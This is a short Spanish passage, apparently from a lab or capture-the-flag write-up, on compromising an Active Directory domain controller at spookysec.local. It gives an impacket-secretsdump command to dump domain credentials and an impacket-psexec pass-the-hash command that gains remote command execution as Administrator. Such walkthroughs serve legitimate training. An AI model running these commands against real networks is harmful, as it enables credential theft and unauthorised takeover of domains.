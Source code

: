 ```
impacket-secretsdump -just-dc backup@spookysec.local
```

Con su contraseña podemos dumpear y vemos bastantes credenciales.

Ahora lanzamos un ataque **Pass-The-Hash** pasándole el hash de admin ya podemos ejecución remota de comandos.

```
impacket-psexec Administrator:@spookysec.local -hashes hash
```

